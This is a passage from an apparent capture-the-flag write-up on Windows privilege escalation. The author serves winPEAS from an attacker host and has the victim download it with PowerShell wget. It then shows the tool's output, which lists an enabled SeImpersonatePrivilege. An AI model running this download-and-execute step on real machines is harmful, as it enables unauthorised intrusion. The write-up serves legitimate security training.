 ## Approach 1

### Privilege Escalation

Lets try to escalate our privileges from ```user``` to ```NT AUTHORITY\SYSTEM```


```c
┌──(aidenpearce369㉿aidenpearce369)-[~/…/winPEAS/winPEASexe/binaries/Release]
└─$ ls
winPEASany.exe
                                                                                                                                                 
┌──(aidenpearce369㉿aidenpearce369)-[~/…/winPEAS/winPEASexe/binaries/Release]
└─$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Downloading ```winPEAS``` on victim machine,

```c
C:\Users\kohsuke\Desktop>powershell wget http://10.10.14.3:8000/winPEASany.exe -outfile privesc.exe
powershell wget http://10.10.14.3:8000/winPEASany.exe -outfile privesc.exe

C:\Users\kohsuke\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE50-B1C9

 Directory of C:\Users\kohsuke\Desktop

09/20/2021  07:08 AM    <DIR>          .
09/20/2021  07:08 AM    <DIR>          ..
09/20/2021  07:09 AM         1,924,608 privesc.exe
11/03/2017  11:22 PM                32 user.txt
               2 File(s)      1,924,640 bytes
               2 Dir(s)   7,536,590,848 bytes free

```

After running this ```privesc.exe```,

```c

...

����������͹ Current Token privileges
� Check if you can escalate privilege using some enabled token https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#token-manipulation                                                                                                                                          
    SeShutdownPrivilege: DISABLED
    SeChangeNotifyPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeUndockPrivilege: DISABLED
    SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeCreateGlobalPrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
    SeIncreaseWorkingSetPrivilege: DISABLED
    SeTimeZonePrivilege: DISABLED

...

```
